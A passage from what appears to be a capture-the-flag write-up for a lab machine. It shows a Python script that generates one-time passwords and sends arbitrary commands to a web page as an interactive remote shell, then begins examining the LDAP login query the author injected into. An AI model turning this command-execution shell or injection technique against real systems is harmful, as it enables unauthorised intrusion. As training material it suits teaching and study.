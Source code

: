 ```
 31                         
 32 
 33     def get_otp(self):
 34         process = Popen(['stoken', f'--token={self.seed}', f'--use-time=-{self.offset}', '--pin=0000'],
 35                 stdout=PIPE)
 36         out,err = process.communicate()
 37         return out.decode().strip()
 38         
 39 
 40     def default(self, cmd):
 41         resp = self.s.post('http://10.10.10.122/page.php',
 42                 data = {"inputCmd": cmd, "inputOTP": self.get_otp()})
 43         result = re.findall(r'<pre>(.*)</pre>', resp.text, re.DOTALL)
 44         if len(result) > 0:
 45             print(result[0].rstrip())
 46             
 47 term = CTF_TERM(proxy={"http":"http://127.0.0.1:8080"})
 48 try: 
 49     term.cmdloop()
 50 except KeyboardInterrupt:
 51     print()

```

The terminal class has 3 functions:
- `__init__` - Initialized variables, gets time for OTP, and logs into the webpage to get access to the `page.php` page. The time is a bit weird, since timezones are a huge pain in python. If this doesn’t work, try messing with that offset.
- `get_otp` - Returns the current otp value.
- `default` - When I get the prompt, this will run for anything I enter. It takes the commands and submits them via the webpage to the host to be run.

### LDAP Injection

#### Actual Queries

With access to the host, I can look at the actual ldap queries being run, and see how my injection actually worked.

The query run at login is (whitespace added by me, user input is `$username2`):

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=$username2)
  )
  (pager=*)
)

```
